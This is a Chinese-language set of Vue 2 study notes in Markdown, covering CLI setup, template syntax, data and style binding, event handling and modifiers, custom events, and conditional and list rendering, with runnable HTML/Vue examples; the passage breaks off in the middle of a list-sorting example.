





# Vue2


## Vue脚手架

<!-- 安装脚手架 -->

`npm install -g @vue/cli`

<!-- 创建项目 -->

`vue create xxx`

<!-- 启动项  -->

`npm run serve`


## webpack.config.js

Vue脚手架将webpack的配置隐藏在node_modules中，我们想要自己配置的话

**## 终端中**

使用`vue inspect > output.js`将配置文件信息打包成一个文件展示出来`

`修改了配置信息需要重新启动项目，配置信息没有热更新`

**## 自定义webpack.config.js**

\```目录下新建一个webpack.config.js文件```

```javascript
module.exports = {
  pages: {
    index: {
      // page 的入口
      entry: 'src/main.js',
    }
  },
  // 关闭语法检查
  lintOnSave: false
}
```


## main.js中的render函数

`填坑`


## 模板语法 {{}}

`{{undefined}}Vue解析为空，页面上不会展示，所以当值没有展示的时候，要考虑自己的值是不是undefined`


### 其中不能写ifwhile等逻辑判断式

```html
//有个限制就是，每个绑定都只能包含单个表达式，所以下面的例子都不会生效。
<!-- 这是语句，不是表达式 -->
{{ var a = 1 }}

<!-- 流控制也不会生效，请使用三元表达式 -->
{{ if (ok) { return message } }}
```


### 插值语法

插值语法是用来给标签内容解析js表达式的


### 指令语法

指令语法是用来给标签属性解析js表达式的

```html
<body>
	<div id="root">
        <!-- 模板语法分为插值语法和指令语法，vue实例中的所有东西都可以在其绑定的节点中直接使用 -->
        <!-- 其中不能写ifwhile等逻辑判断式 -->
        <!-- 插值语法是用来给标签内容解析js表达式的 -->
        <h1>插值语法</h1>
        <span>hello,{{who}}</span>
        <!-- 指令语法是用来给标签属性解析js表达式的 -->
    	<h1>指令语法</h1>
    	<a :href="url">百度一下</a>
	</div>
	<script src="../vue.js"></script>
	<script>
        // 阻止vue在启动时产生生产提示
        Vue.config.productionTip = false;
        new Vue({
          el: '#root',
          data: {
            who:'world',
            url:'http://www.baidu.com'
          }
        })
	</script>
</body>
```


## v-?


### 数据绑定v-bind v-model

双向数据绑定在绑定数据上比单向数据绑定好，那么为什么不都用v-model呢？因为`v-model只能作用到表单 <input>、<textarea> 及 <select>元素上`

双向数据绑定v-model:value可以简写为v-model，因为v-model默认就是绑定value属性的值

```html
<body>
  <script src="../vue.js"></script>
  <script>
    Vue.config.productionTip = false;
  </script>
  <div id="root">
    单向数据绑定：<input type="text" v-bind:value="value">
    <br>
    双向数据绑定：<input type="text" v-model:value="value">
    <br>
    <!-- 双向数据绑定在绑定数据上比单向数据绑定好，那么为什么不都用v-model呢？因为v-model只能作用到表单元素上 -->
    <!-- 双向数据绑定v-model:value可以简写为v-model，因为v-model默认就是绑定value属性的值 -->
    单向数据绑定简写：<input type="text" :value="value">
    <br>
    双向数据绑定简写：<input type="text" v-model="value">
  </div>
  <script>
    new Vue({
      el: '#root',
      data: {
        value: 'hahaha'
      }
    })
  </script>
</body>
```


#### 绑定样式 v-bind

##### class样式

​        写法:class="xxx"  `xxx可以是字符串、对象、数组`。

​          字符串写法适用于：类名不确定，要动态获取。

​          对象写法适用于：要绑定多个样式，个数不确定，名字也不确定。

​          数组写法适用于：要绑定多个样式，个数确定，名字也确定，但不确定用不用。


##### style样式

​        :style="{fontSize: xxx}"其中 `xxx是动态值`。

​        :style="[a,b]"其中`a、b是样式对象`。

```html
<style>
    .basic{
        width: 400px;
        height: 100px;
        border: 1px solid black;
    }

    .happy{
        border: 4px solid red;;
        background-color: rgba(255, 255, 0, 0.644);
        background: linear-gradient(30deg,yellow,pink,orange,yellow);
    }
    .sad{
        border: 4px dashed rgb(2, 197, 2);
        background-color: gray;
    }
    .normal{
        background-color: skyblue;
    }

    .atguigu1{
        background-color: yellowgreen;
    }
    .atguigu2{
        font-size: 30px;
        text-shadow:2px 2px 10px red;
    }
    .atguigu3{
        border-radius: 20px;
    }
</style>
<body>
    <!-- 准备好一个容器-->
    <div id="root">
        <!-- 绑定class样式--字符串写法，适用于：样式的类名不确定，需要动态指定 -->
        <div class="basic" :class="mood" @click="changeMood">{{name}}</div> <br/><br/>

        <!-- 绑定class样式--数组写法，适用于：要绑定的样式个数不确定、名字也不确定 -->
        <div class="basic" :class="classArr">{{name}}</div> <br/><br/>

        <!-- 绑定class样式--对象写法，适用于：要绑定的样式个数确定、名字也确定，但要动态决定用不用 -->
        <div class="basic" :class="classObj">{{name}}</div> <br/><br/>

        <!-- 绑定style样式--对象写法 -->
        <div class="basic" :style="styleObj">{{name}}</div> <br/><br/>
        <!-- 绑定style样式--数组写法 -->
        <div class="basic" :style="styleArr">{{name}}</div>
        <!-- 绑定style样式--多重值写法 Vue3 -->
        <div :style="{ display: ['-webkit-box', '-ms-flexbox', 'flex'] }"></div>
    </div>
</body>
<script type="text/javascript" src="../vue.js"></script>
<script type="text/javascript">
    Vue.config.productionTip = false

    const vm = new Vue({
        el:'#root',
        data:{
            name:'尚硅谷',
            mood:'normal',
            classArr:['atguigu1','atguigu2','atguigu3'],
            classObj:{
                atguigu1:false,
                atguigu2:false,
                //划线命名要加双冒号，才能生效
                "a-b":true,
            },
            styleObj:{
                fontSize: '40px',
                color:'red',
            },
            styleObj2:{
                backgroundColor:'orange'
            },
            styleArr:[
                {
                    fontSize: '40px',
                    color:'blue',
                },
                {
                    backgroundColor:'gray'
                }
            ]
        },
        methods: {
            changeMood(){
                const arr = ['happy','sad','normal']
                const index = Math.floor(Math.random()*3)
                this.mood = arr[index]
            }
        },
    })
</script>
```


#### 收集表单数据 v-model

​     若：<input type="text"/>，则v-model收集的是value值，用户输入的就是value值。

​     若：<input type="radio"/>，则v-model收集的是value值，且要给标签配置value值。

​     若：<input type="checkbox"/>

​       1.`没有配置input的value属性，那么收集的就是checked`（勾选 or 未勾选，是布尔值）

​       2.配置input的value属性:

​         (1)`v-model的初始值是非数组，那么收集的就是checked`（勾选 or 未勾选，是布尔值）

​         (2)`v-model的初始值是数组，那么收集的的就是value组成的数组`

​     备注：`v-model的三个修饰符`：

​         lazy：`失去焦点再收集数据`

​         number：`输入字符串转为有效的数字`

​         trim：`输入首尾空格过滤`

```html
<body>
    <!-- 准备好一个容器-->
    <div id="root">
        <form @submit.prevent="demo">
            <!-- 去掉前后的空格 -->
            账号：<input type="text" v-model.trim="userInfo.account"> <br/><br/>
            密码：<input type="password" v-model="userInfo.password"> <br/><br/>
            <!-- 第一个number限制输入的时候只能输入数字，第二个number将表单收集的字符转换为number类型 -->
            年龄：<input type="number" v-model.number="userInfo.age"> <br/><br/>
            性别：
            男<input type="radio" name="sex" v-model="userInfo.sex" value="male">
            女<input type="radio" name="sex" v-model="userInfo.sex" value="female"> <br/><br/>
            爱好：
            学习<input type="checkbox" v-model="userInfo.hobby" value="study">
            打游戏<input type="checkbox" v-model="userInfo.hobby" value="game">
            吃饭<input type="checkbox" v-model="userInfo.hobby" value="eat">
            <br/><br/>
            所属校区
            <select v-model="userInfo.city">
                <option value="">请选择校区</option>
                <option value="beijing">北京</option>
                <option value="shanghai">上海</option>
                <option value="shenzhen">深圳</option>
                <option value="wuhan">武汉</option>
            </select>
            <br/><br/>
            其他信息：
            <!-- lazy失去焦点再将值传给vue -->
            <textarea v-model.lazy="userInfo.other"></textarea> <br/><br/>
            <input type="checkbox" v-model="userInfo.agree">阅读并接受<a href="http://www.atguigu.com">《用户协议》</a>
            <button>提交</button>
        </form>
    </div>
</body>
<script type="text/javascript" src="../vue.js"></script>
<script type="text/javascript">
    Vue.config.productionTip = false

    new Vue({
        el:'#root',
        data:{
            userInfo:{
                account:'',
                password:'',
                age:18,
                sex:'female',
                hobby:[],
                city:'beijing',
                other:'',
                agree:''
            }
        },
        methods: {
            demo(){
                console.log(JSON.stringify(this.userInfo))
            }
        }
    })
</script>
```


#### 作用域插槽给插槽的使用者传值

````html
<slot :games="games">我是一些默认值，当使用者没有传递具体结构时，我会出现1</slot>
````

`使用者接收`

```html
<template scope="{games}"></template>
<template v-slot="{games}"></template>
<template slot-scope="{games}"></template>
```


### 事件绑定v-on

1. 使用v-on:xxx 或 @xxx 绑定事件，其中xxx是事件名；
2.  事件的回调需要配置在methods对象中，最终会在vm上；可以放在data中，但是会增加vue的压力，因为data中的数据vue会进行数据代理和数据劫持
3. methods中配置的函数，`不要用箭头函数`！否则this就不是vm了；
4.  methods中配置的函数，都是被Vue所管理的函数，this的指向是vm 或 组件实例对象；
5. @click="demo" 和 @click="demo($event)" 效果一致，但`后者可以传自己的参数，事件触发的时候，vue会自动将event传入`；

````html
<body>
    <script type="text/javascript" src="../vue.js"></script>
    <!-- 准备好一个容器-->
    <div id="root">
      <h2>欢迎来到{{ name }}学习</h2>
      <!-- <button v-on:click="showInfo">点我提示信息</button> -->
      <button @click="showInfo1">点我提示信息1（不传参）</button>
      <button @click="showInfo2($event,66)">点我提示信息2（传参）</button>
    </div>

    <script type="text/javascript">
      Vue.config.productionTip = false; //阻止 vue 在启动时生成生产提示。

      const vm = new Vue({
        el: "#root",
        data: {
          name: "尚硅谷"
        },
        methods: {
          showInfo1(event) {
            // console.log(event.target.innerText)
            // console.log(this) //此处的this是vm
            alert("同学你好！");
          },
          showInfo2(event, number) {
            console.log(event, number);
            // console.log(event.target.innerText)
            console.log(this); //此处的this是vm
            alert("同学你好！！");
          },
       	  // showInfo2:(event, number) => {
          //   console.log(event, number);
          //   console.log(this); //此处的this是这个Vue实例创建所在的作用域中的this，在这其实就是window
          //   alert("同学你好！！");
          // },
        }
      });
    </script>
  </body>
````


#### 原生事件修饰符

1. prevent：阻止默认事件（常用）；
2. stop：阻止事件冒泡（常用）；
3. once：事件只触发一次（常用）；
4. capture：使用事件的捕获模式；
5. self：只有event.target是当前操作的元素时才触发事件；
6. passive：事件的默认行为立即执行，无需等待事件回调执行完毕；
7. exact 修饰符允许你控制由精确的系统修饰符组合触发的事件。`（Vue3）`

```html
<style>
    *{
        margin-top: 20px;
    }
    .demo1{
        height: 50px;
        background-color: skyblue;
    }
    .box1{
        padding: 5px;
        background-color: skyblue;
    }
    .box2{
        padding: 5px;
        background-color: orange;
    }
    .list{
        width: 200px;
        height: 200px;
        background-color: peru;
        overflow: auto;
    }
    li{
        height: 100px;
    }
</style>
<body>
    <!-- 准备好一个容器-->
    <div id="root">
        <h2>欢迎来到{{name}}学习</h2>
        <!-- 阻止默认事件（常用） -->
        <a href="http://www.atguigu.com" @click.prevent="showInfo">点我提示信息</a>

        <!-- 阻止事件冒泡（常用） -->
        <div class="demo1" @click="showInfo">
            <button @click.stop="showInfo">点我提示信息</button>
            <!-- 修饰符可以连续写 -->
            <!-- <a href="http://www.atguigu.com" @click.prevent.stop="showInfo">点我提示信息</a> -->
        </div>

        <!-- 事件只触发一次（常用） -->
        <button @click.once="showInfo">点我提示信息</button>

        <!-- 使用事件的捕获模式 -->
        <div class="box1" @click.capture="showMsg(1)">
            div1
            <div class="box2" @click="showMsg(2)">
                div2
            </div>
        </div>

        <!-- 只有event.target是当前操作的元素时才触发事件； -->
        <div class="demo1" @click.self="showInfo">
            <button @click="showInfo">点我提示信息</button>
        </div>

        <!-- 事件的默认行为立即执行，无需等待事件回调执行完毕； -->
        <ul @wheel.passive="demo" class="list">
            <li>1</li>
            <li>2</li>
            <li>3</li>
            <li>4</li>
        </ul>
		<!-- 即使 Alt 或 Shift 被一同按下时也会触发 -->
        <button @click.ctrl="onClick">A</button>

        <!-- 有且只有 Ctrl 被按下的时候才触发 -->
        <button @click.ctrl.exact="onCtrlClick">A</button>

        <!-- 没有任何系统修饰符被按下的时候才触发 -->
        <button @click.exact="onClick">A</button>
    </div>
</body>
<script type="text/javascript" src="../vue.js"></script>
<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    new Vue({
        el:'#root',
        data:{
            name:'尚硅谷'
        },
        methods:{
            showInfo(e){
                alert('同学你好！')
                // console.log(e.target)
            },
            showMsg(msg){
                console.log(msg)
            },
            demo(){
                for (let i = 0; i < 100000; i++) {
                    console.log('#')
                }
                console.log('累坏了')
            }
        }
    })
</script>
```


#### 键盘事件与修饰符

1. Vue中常用的按键别名：`一般配合keyup使用`

​       回车 => enter

​       删除 => delete (捕获“删除”和“退格”键)

​       退出 => esc

​       空格 => space

​       换行 => tab (特殊，必须配合keydown去使用)

​       上 => up

​       下 => down

​       左 => left

​       右 => right

2. Vue未提供别名的按键，可以使用按键原始的key值去绑定，但`注意要转为kebab-case（短横线命名）不要写成驼峰的形式`

3. 系统修饰键`（用法特殊）`：ctrl、alt、shift、meta

​       (1).配合keyup使用：按下修饰键的同时，再按下其他键，随后释放其他键，事件才被触发。

​       (2).配合keydown使用：正常触发事件。

4. 也可以使用keyCode去指定具体的按键（`不推荐，不同的键盘编码不统一，已经快要被废除了`）

5. Vue.config.keyCodes.自定义键名 = 键码，可以去`定制按键别名`

```html
<body>
    <!-- 准备好一个容器-->
    <div id="root">
        <h2>欢迎来到{{name}}学习</h2>
        <!-- <input type="text" placeholder="按下回车提示输入" @keydown.enter="showInfo"> -->
        <!-- 将键盘名称写成xx-xx的形式，不要写成驼峰的形式 -->
        <!-- <input type="text" placeholder="按下回车提示输入" @keydown.caps-lock="showInfo"> -->
        <!-- <input type="text" placeholder="按下回车提示输入" @keydown.13="showInfo"> -->
        <input type="text" placeholder="按下回车提示输入" @keydown.huiche="showInfo">
    </div>
</body>
<script type="text/javascript" src="../vue.js"></script>
<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
    Vue.config.keyCodes.huiche = 13 //定义了一个别名按键

    new Vue({
        el:'#root',
        data:{
            name:'尚硅谷'
        },
        methods: {
            showInfo(e){
                // console.log(e.key,e.keyCode)
                console.log(e.target.value)
            }
        },
    })
</script>
```


#### 鼠标事件与修饰符

| click     | 单击鼠标左键时发生，如果右键也按下则不会发生。当用户的焦点在按钮上并按了 Enter 键时，同样会触发这个事件 |
| --------- | ------------------------------------------------------------ |
| dblclick  | 双击鼠标左键时发生，如果右键也按下则不会发生                 |
| mousedown | 单击任意一个鼠标按钮时发生                                   |
| mouseout  | 鼠标指针位于某个元素上且将要移出元素的边界时发生             |
| mouseover | 鼠标指针移出某个元素到另一个元素上时发生                     |
| mouseup   | 松开任意一个鼠标按钮时发生                                   |
| mousemove | 鼠标在某个元素上时持续发生                                   |

 鼠标按钮修饰符

- `.left`
- `.right`
- `.middle`

这些修饰符会限制处理函数仅响应特定的鼠标按钮。


#### 自定义事件与修饰符

`注意`

1. 自定义事件只会在组件销毁的时候，自动解绑这个组件身上的自定义事件，所以当我们不需要使用自定义事件，`尽量在beforeDestroy()生命周期函数中手动解绑自定义事件`，这样效率会更高

2. 有坑！！！！$on和$once中第二个函数参数中的this指向子组件，这个函数是一个回调函数，被子组件调用，所以尽量第二个函数写成this.methods中的方法或者使用箭头函数

`父组件`

````vue
<template>
	<div class="app">
		<h1>{{msg}} 传递过来的数字:{{numb}}</h1>
		<!-- 通过父传子函数，子组件通过props接收调用从而传参 -->
		<School :getSchoolName="getSchoolName"></School>
		<!-- 给Student（VueComponent）实例对象子组件传递一个自定义事件，子组件通过VueComponent.$emit()调用 -->
		<!-- <Student @atguigu.once="getStudentName"></Student> -->
		<Student @atguigu="getStudentName" @demo="demo"></Student>
		<!-- 通过ref拿到VueComponent子组件，然后直接给VueComponent通过$on绑定方法，这种方式可以处理更多的业务 -->
		<Class ref="Class"></Class>
		<-- 不使用native修饰符这个click会被解析成自定义事件 -->
		<Class @click="Click"></Class>
		<!-- 给子组件绑定原生事件,这个原生事件会被绑定到子组件的根元素（div）上 -->
		<Class @click.native="Click"></Class>
	</div>
</template>

<script>
	//引入组件
	import School from './components/School'
	import Student from './components/Student'
	import Class from './components/Class'

	export default {
		name:'App',
		components:{
			School,
			Student,
			Class,
		},
		data() {
			return {
				msg:'你好啊',
				numb: 0
			}
		},
		methods: {
			getSchoolName(value){
				console.log(value)
			},
			// es6接收多个参数
			getStudentName(value,...num){
				console.log(value,)
				this.numb = num[0]
			},
			getClassName(value){
				console.log(value)
			},
			demo(){
				console.log('demo被触发了');
			},
			Click(){
				alert('给子组件绑定原生事件')
			}
		},
		mounted() {
			// this.$refs.Class就是子组件
			// $on给组件绑定自定义事件，前面是事件名，后面是事件函数
			// 可以在绑定的时候添加业务,比如三秒之后再绑定事件，页面mounted之后的三秒内无法触发这个事件
			setTimeout(()=>{
				// this.$refs.Class.$on('getClassName',this.getClassName)
				// 自定义事件只绑定一次
                
                
                
				// 有坑！！！！$on和$once中第二个函数参数中的this指向子组件，这个函数是一个回调函数，被子组件调用，所以尽量第二个函数写成this.methods中的方法或者使用箭头函数
                
                
                
                
				this.$refs.Class.$once('getClassName',this.getClassName)
			},3000)
		},
	}
</script>
<style lang="less">
	.app {
		background-color: gray;
	}
</style>

````

`子组件`

```vue
<template>
  <div class="Student">
    <h2>学生姓名：{{name}}</h2>
    <h2>学生性别：{{sex}}</h2>
    <button @click="sendStudentName">发送学生姓名给APP组件</button>
    <button @click="unbind">解绑自定义atguigu事件</button>
    <button @click="Des">销毁Student组件</button>
  </div>
</template>
<script>
export default {
  name: "Student",
  data() {
    return {
      name: "张三",
      sex: "男"
    };
  },
  methods: {
    sendStudentName() {
			// 第一个参数是自定义事件名称，后面的参数为传递的数据可以传递多个
      this.$emit("atguigu", this.name,1);
      this.$emit("demo")
    },
    unbind(){
      // 解绑一个自定义事件
      // this.$off('atguigu')
      // 解绑多个自定义事件
      // this.$off(['atguigu','demo'])
      // 解绑所有的自定义事件
      this.$off()
    },
    Des(){
      // 查看官网生命周期函数图可以知道组件销毁的时候会把组件的监听和子组件的自定义事件解绑
      // 手动销毁组件，”他杀“
      this.$destroy()
    }
  }
};
</script>
<style scoped lang="less">
.Student {
  background-color: pink;
}
</style>
```

### 条件渲染v-if v-show


#### v-if

​            (1).v-if="表达式" 

​            (2).v-else-if="表达式"

​            (3).v-else="表达式"

​          适用于：切换频率较低的场景。

​          特点：不展示的DOM元素`直接被移除`。

​          注意：v-if可以和:v-else-if、v-else一起使用，但要求结构不能被“打断”。`效率比全都是v-if效率高`


#### v-show

​          写法：v-show="表达式"

​          适用于：`切换频率较高的场景`。

​          特点：不展示的DOM元素未被移除，仅仅是使用样式隐藏掉`display:none；`


`v-if与template的配合使用，template不能与v-show配合使用，template渲染的时候会消失，不占有页面节点`

```html
<body>
    <!-- 准备好一个容器-->
    <div id="root">
        <h2>当前的n值是:{{n}}</h2>
        <button @click="n++">点我n+1</button>
        <!-- 使用v-show做条件渲染 -->
        <!-- <h2 v-show="false">欢迎来到{{name}}</h2> -->
        <!-- <h2 v-show="1 === 1">欢迎来到{{name}}</h2> -->

        <!-- 使用v-if做条件渲染 -->
        <!-- <h2 v-if="false">欢迎来到{{name}}</h2> -->
        <!-- <h2 v-if="1 === 1">欢迎来到{{name}}</h2> -->

        <!-- v-else和v-else-if是一组判断，效率比全都是v-if效率高 -->
        <!-- <div v-if="n === 1">Angular</div>
		<div v-else-if="n === 2">React</div>
        <div v-else-if="n === 3">Vue</div>
		<div v-else>哈哈</div> -->

        <!-- v-if与template的配合使用，template不能与v-show配合使用，template渲染的时候会消失，不占有页面节点 -->
        <template v-if="n === 1">
            <h2>你好</h2>
            <h2>尚硅谷</h2>
            <h2>北京</h2>
        </template>

    </div>
</body>

<script type="text/javascript" src="../vue.js"></script>
<script type="text/javascript">
    Vue.config.productionTip = false

    const vm = new Vue({
        el:'#root',
        data:{
            name:'尚硅谷',
            n:0
        }
    })
</script>
```


### 列表渲染v-for

1. 用于展示列表数据，`循环展示谁就给谁的父盒子加，如果是组件标签就直接加在组件标签上`

2. 语法：v-for="(item, index) in xxx" :key="yyy"

3. 可遍历：数组、对象、字符串（用的很少）、指定次数（用的很少）

```html
<body>
    <!-- 准备好一个容器-->
    <div id="root">
        <!-- 遍历数组 -->
        <h2>人员列表（遍历数组）</h2>
        <ul>
            <li v-for="(p,index) of persons" :key="index">
                {{p.name}}-{{p.age}}
            </li>
        </ul>

        <!-- 遍历对象 -->
        <h2>汽车信息（遍历对象）</h2>
        <ul>
            <li v-for="(value,k) of car" :key="k">
                {{k}}-{{value}}
            </li>
        </ul>

        <!-- 遍历字符串 -->
        <h2>测试遍历字符串（用得少）</h2>
        <ul>
            <li v-for="(char,index) of str" :key="index">
                {{char}}-{{index}}
            </li>
        </ul>

        <!-- 遍历指定次数 -->
        <h2>测试遍历指定次数（用得少）</h2>
        <ul>
            <li v-for="(number,index) of 5" :key="index">
                {{index}}-{{number}}
            </li>
        </ul>
    </div>
    <script type="text/javascript" src="../vue.js"></script>
    <script type="text/javascript">
        Vue.config.productionTip = false

        new Vue({
            el:'#root',
            data:{
                persons:[
                    {id:'001',name:'张三',age:18},
                    {id:'002',name:'李四',age:19},
                    {id:'003',name:'王五',age:20}
                ],
                car:{
                    name:'奥迪A8',
                    price:'70万',
                    color:'黑色'
                },
                str:'hello'
            }
        })
    </script>
```


#### key的原理

react、vue中的key有什么作用？（key的内部原理）

1. 虚拟DOM中key的作用：

​          key是虚拟DOM对象的标识，当数据发生变化时，Vue会根据【新数据】生成【新的虚拟DOM】, 

​          随后Vue进行`【新虚拟DOM】与【旧虚拟DOM】的差异比较`，比较规则如下：        

2. 对比规则：

​         (1).旧虚拟DOM中找到了与新虚拟DOM相同的key：

​            ①.`若虚拟DOM中内容没变, 直接使用之前的真实DOM`！

​            ②.`若虚拟DOM中内容变了, 则生成新的真实DOM，随后替换掉页面中之前的真实DOM`。

​         (2).旧虚拟DOM中未找到与新虚拟DOM相同的key

​            创建新的真实DOM，随后渲染到到页面。            

3. `用index作为key`可能会引发的问题：

      \1. 若对数据进行：逆序添加、逆序删除等破坏顺序操作:

​               会产生没有必要的真实DOM更新 ==> 界面效果没问题, 但效率低。

​           \2. 如果结构中还包含输入类的DOM：

​               会产生错误DOM更新 ==> 界面有问题。

4. 开发中如何选择key?:

​           1.`最好使用每条数据的唯一标识作为key`, 比如`id、手机号、身份证号、学号等唯一值`。

​           2.如果不存在对数据的逆序添加、逆序删除等破坏顺序操作，仅用于渲染列表用于展示，

​            使用index作为key是没有问题的。

```html
<body>
    <!-- 准备好一个容器-->
    <div id="root">
        <!-- 遍历数组 -->
        <h2>人员列表（遍历数组）</h2>
        <button @click.once="add">添加一个老刘</button>
        <ul>
            <li v-for="(p,index) of persons" :key="index">
                {{p.name}}-{{p.age}}
                <input type="text">
            </li>
        </ul>
    </div>
    <script type="text/javascript" src="../js/vue.js"></script>
    <script type="text/javascript">
        Vue.config.productionTip = false

        new Vue({
            el:'#root',
            data:{
                persons:[
                    {id:'001',name:'张三',age:18},
                    {id:'002',name:'李四',age:19},
                    {id:'003',name:'王五',age:20}
                ]
            },
            methods: {
                add(){
                    const p = {id:'004',name:'老刘',age:40}
                    this.persons.unshift(p)
                }
            },
        })
    </script>
```


#### 列表过滤

```html
<body>
    <!-- 准备好一个容器-->
    <div id="root">
        <h2>人员列表</h2>
        <input type="text" placeholder="请输入名字" v-model="keyWord">
        <ul>
            <li v-for="(p,index) of filPerons" :key="index">
                {{p.name}}-{{p.age}}-{{p.sex}}
            </li>
        </ul>
    </div>
    <script type="text/javascript" src="../vue.js"></script>
    <script type="text/javascript">
        Vue.config.productionTip = false

        //用watch实现
        //#region 
        /* new Vue({
				el:'#root',
				data:{
					keyWord:'',
					persons:[
						{id:'001',name:'马冬梅',age:19,sex:'女'},
						{id:'002',name:'周冬雨',age:20,sex:'女'},
						{id:'003',name:'周杰伦',age:21,sex:'男'},
						{id:'004',name:'温兆伦',age:22,sex:'男'}
					],
					filPerons:[]
				},
				watch:{
					keyWord:{
						// indexOf匹配的时候，当用''空去匹配字符串的时候，也可以匹配的到都为0，而不是-1。因
						// 此在此处先调用一次就能将数据全部展示,不需要将filPerons赋值为原数组
						immediate:true,
						handler(val){
							this.filPerons = this.persons.filter((p)=>{
								return p.name.indexOf(val) !== -1
							})
						}
					}
				}
			}) */
        //#endregion

        //用computed实现
        new Vue({
            el:'#root',
            data:{
                keyWord:'',
                persons:[
                    {id:'001',name:'马冬梅',age:19,sex:'女'},
                    {id:'002',name:'周冬雨',age:20,sex:'女'},
                    {id:'003',name:'周杰伦',age:21,sex:'男'},
                    {id:'004',name:'温兆伦',age:22,sex:'男'}
                ]
            },
            computed:{
                // 计算属性依赖了keyWord，当keyWord的值发生改变时，get回调函数会被调用
                filPerons(){
                    return this.persons.filter((p)=>{
                        return p.name.indexOf(this.keyWord) !== -1
                    })
                }
            }
        }) 
    </script>
</body>
```

#### 列表排序

```html
<body>
    <!-- 准备好一个容器-->
    <div id="root">
        <h2>人员列表</h2>
        <input type="text" placeholder="请输入名字" v-model="keyWord" />
        <button @click="sortType = 2">年龄升序</button>
        <button @click="sortType = 1">年龄降序</button>
        <button @click="sortType = 0">原顺序</button>
        <ul>
            <li v-for="(p,index) of filPerons" :key="p.id">
                {{ p.name }}-{{ p.age }}-{{ p.sex }}
                <input type="text" />
            </li>
        </ul>
    </div>
    <script type="text/javascript" src="../vue.js"></script>
    <script type="text/javascript">
        Vue.config.productionTip = false;

        new Vue({
